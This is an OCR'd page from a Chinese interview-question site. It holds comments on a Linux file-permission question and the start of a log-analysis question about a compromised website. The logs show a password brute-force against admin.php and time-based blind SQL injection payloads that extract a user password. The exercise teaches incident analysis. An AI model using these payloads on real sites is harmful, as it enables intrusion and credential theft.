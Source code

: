 ```cpp
go 文件夹可以被任意用户浏览
```

本题知识点

安卓工程师 网易 C++工程师 Java 工程师 安全工程师 测试工程师 测试开发工程师 大数据开发工程师 前端工程师 数据库工程师 iOS 工程师 运维工程师 2020

讨论

[我是复读机](https://www.nowcoder.com/profile/162099353)

A 是目录，不是文件；B 也是目录，所以 4096 表示的是该目录符所占的大小（注意，4096 不表示该目录下所有文件的大小）；C 没有 x 权限，不能直接./运行，但可以用 sh 运行；D 正确

发表于 2020-04-21 19:41:36

* * *

[offer-冲鸭](https://www.nowcoder.com/profile/447104610)

首先 d 表示这个文件是一个文件夹，然后文件的权限用其后一共有 9 个字符表示，分成三组，分别表示文件所属用户的权限，文件所属用户组的权限，其他人的权限，r 表示读权限, w 表示写权限， x 表示执行权限，你给的这个例子就是说 这是个文件夹，并且此文件所属用户拥有读、写、执行三项权限，其余的用户组，其他用户不拥有任何权限（全部都是-）--转

发表于 2020-04-03 22:52:49

* * *

[HEREISDAVID](https://www.nowcoder.com/profile/864672146)

![](img/ee882980dc2849771e1a82de0c6cee8c.png)

发表于 2020-09-27 20:12:49

* * *

## 11

某 Web 站点被攻击者入侵，事后安全工程师获取到了该网站 Web 服务器的访问日志进行分析，题目中依照日志时间顺序列出 7 条可疑日志，请分析后作答：

172.17.0.1 [27/May/2019:07:32:52 +0000] "GET /admin.php?username=admin&password=1234567890 HTTP/1.1" 200 284 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0"

172.17.0.1 [27/May/2019:07:32:53 +0000] "GET /admin.php?username=admin&password=michael HTTP/1.1" 200 284 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0"

172.17.0.1 [27/May/2019:07:32:58 +0000] "GET /admin.php?username=admin&password=654321 HTTP/1.1" 200 284 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0"

172.17.0.1 [27/May/2019:08:41:44 +0000] "GET /index.php?con=admin&act=index HTTP/1.1" 200 7718 "http://10.22.2.199/index.php?con=admin&act=payment_list" "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0"

172.17.0.1 [27/May/2019:08:41:57 +0000] "GET /index.php?con=goods&act=set_online&status=0&id=12)%20and%20if(substr((select%20password%20from%20tiny_user%20limit%200,1),1,1)='9',sleep(3),0)%23 HTTP/1.1" 302 - "-" "python-requests/2.20.0"

172.17.0.1 [27/May/2019:08:41:57 +0000] "GET /index.php?con=goods&act=set_online&status=0&id=12)%20and%20if(substr((select%20password%20from%20tiny_user%20limit%200,1),1,1)='a',sleep(3),0)%23 HTTP/1.1" 302 - "-" "python-requests/2.20.0"
